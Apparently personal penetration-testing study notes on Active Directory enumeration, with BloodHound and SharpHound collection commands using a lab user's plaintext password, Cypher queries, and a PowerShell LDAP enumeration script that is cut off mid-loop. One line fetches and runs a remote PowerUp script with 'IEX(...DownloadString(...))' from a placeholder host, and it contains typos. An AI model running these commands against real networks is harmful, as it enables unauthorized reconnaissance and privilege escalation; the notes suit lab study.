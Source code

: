 ```powershell


gpresult /S SERVER01 /USER CORP\dave /R


# AUTOMATED TOOLS

bloodhound-python # compatible for bloodhound legacy
pipx install bloodhound-ce 
bloodhound-ce-python # compatible for bloodhound ce

# Try to use sharphound too, because it misses some details
bloodhound-ce-python -u stephanie -p 'LegmanTeamBenzoin!!' -d corp.com -v --zip -c All,LoggedOn -gc corp.com -ns 192.168.105.70
# LoggedOn isn't included inside All collection



# [sharphound](https://github.com/SpecterOps/SharpHound/releases)
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corp audit"

# analysis of collected data 
curl -L https://raw.githubusercontent.com/SpecterOps/bloodhound/main/examples/docker-compose/docker-compose.yml > docker-compose.yml
sudo docker-compose pull && sudo docker-compose up
# cypher queries [Reference1](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/) 
# Example cypher query
MATCH (n:User)WHERE n.hasspn=true
RETURN n

MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p

# BloodHound enumerates local admin access only from the perspective of the user used during data collection. To discover additional access paths after pivoting to another user, data must be recollected using that new context.

powershell -nop -e bypass IEX(New-Object New.WebClient).DownloadString('http://192.168.x.x/powerup.ps1');Invoke-AllChecks > output-powerup.txt

```
#### ad-enumeration-script
this custom script can helps us find nested groups. `net group gropuname /domain` only lists the user, groups that are member of the mentioned group.
```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)
	
$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)

# to filter for the domain users only
$dirsearcher.filter="samAccountType=805306368"
# to filter specific user only
# $dirsearcher.filter="name=jeffadmin"


$result = $dirsearcher.FindAll()

Foreach($obj in $result)
```